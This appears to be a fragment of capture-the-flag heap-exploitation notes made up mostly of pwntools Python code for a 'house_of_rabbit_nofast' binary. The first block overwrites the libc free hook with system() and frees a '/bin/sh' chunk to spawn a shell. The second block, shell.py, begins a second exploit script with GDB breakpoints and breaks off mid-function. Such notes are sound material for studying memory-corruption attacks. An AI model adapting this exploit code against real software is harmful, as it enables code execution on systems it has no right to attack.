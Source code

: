 ```python=

# =-=-=- OVERWRITE FREE HOOK -=-=-=

# The next request is serviced by the fake chunk.
# Request a large chunk to bridge the gap between the fake chunk and the free hook.
# Write the string "/bin/sh" into this chunk for use later as the argument to system().
binsh = malloc(distance, b"/bin/sh\0")

# The next request is serviced by the fake chunk again and overlaps the free hook.
# Use it to overwrite the free hook with the address of system().
malloc(0x18, pack(0) + pack(libc.sym.system))

# Free the chunk with "/bin/sh" in the 1st qword of its user data.
# This triggers a call to system("/bin/sh").
free(binsh)

# =============================================================================

io.interactive()
```


## Heap Feng Shui

### shell.py

```python=
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./house_of_rabbit_nofast', checksec=False)

#libc = ELF('', checksec=False)
libc = elf.libc 

gs = """
b *main

b *main+187

b *main+298

b *main+396
b *main+463

b *main+575
"""

def info(mess):
    return log.info(mess)

def success(mess):
    return log.success(mess)

def error(mess):
    log.error(mess)


def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path},gdbscript=gs)
    elif args.REMOTE:
```